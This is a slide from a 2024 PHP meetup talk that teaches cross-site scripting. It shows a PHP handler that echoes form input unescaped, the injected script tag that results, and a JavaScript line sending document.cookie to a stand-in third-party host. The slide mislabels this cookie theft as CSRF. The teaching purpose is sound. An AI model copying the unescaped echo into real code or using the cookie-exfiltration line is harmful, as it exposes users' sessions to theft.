

PHPCamp Online #3 - 14 Sep 2024
Cross Site Scripting (XSS) - CSRF Example
——HTML FORM——
<form action="/handler" method="POST">
    <input type="text" name="fullname" />
    <input type="submit" name="submit" value="Submit" />
</form>
——PHP /handler——
<p>
    Fullname: <?php echo $_POST['fullname']; ?>
</p>
——Generated HTML——
<p>
    Fullname: <script type=“text/javascript” src=“http://somesite/csrf-initiator.js”></script>
</p>
// code inside javascript file to access non-sanitised cookies and send it to third-party - CSRF
window.location = "http://thirdpartysite" + "?cookies=" + encodeURIComponent (document.cookie);
By Ramesh N Jangid